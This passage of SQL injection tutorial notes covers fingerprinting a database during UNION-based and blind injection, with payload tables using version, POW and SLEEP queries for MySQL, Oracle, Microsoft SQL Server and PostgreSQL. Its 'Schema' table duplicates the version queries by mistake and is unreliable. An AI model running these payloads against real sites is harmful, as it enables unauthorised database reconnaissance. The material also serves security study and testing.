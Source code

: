 We can change **database()** from others functions to guess another values (tables, columns,...).

---

# Enumeration

## Identify Database

### MySQL Fingerprinting 

We can use the following:

| **Payload**    | **When to use**    | **Expected Output**    | **Wrong Output** |
|---------------- | --------------- | --------------- | ------------ |
| `SELECT @@version`   | Full query output    | MySQL Version (`10.3.22-MariaDB-1ubuntu1`)    | Error with other DBMS |
| `SELECT POW(1,1)` | Only have numeric output | `1` | Error with other DBMS |
| `SELECT SLEEP(5)` | Blind/No Output | Delays page response for 5 seconds and returns `0` | Will not delay response with other DBMS |

To use a proper **UNION SELECT** query we need the information about the whole database. This mean knowing:
- List of databases
- List of tables within each database
- List of columns within each table

## Version

| **Database** | **Query** |
| ------------ | --------- |
| **Oracle** | `SELECT banner FROM v$version` `SELECT version FROM v$instance` |
| **Microsoft** | `SELECT @@version` |
| **PostgreSQL** | `SELECT version()` |
| **MySQL** | `SELECT @@version` |

## Schema

| **Database** | **Query** |
| ------------ | --------- |
| **Oracle** | `SELECT banner FROM v$version` `SELECT version FROM v$instance` |
| **Microsoft** | `SELECT @@version` |
| **PostgreSQL** | `SELECT version()` |
| **MySQL** | `SELECT @@version` |

## Tables 
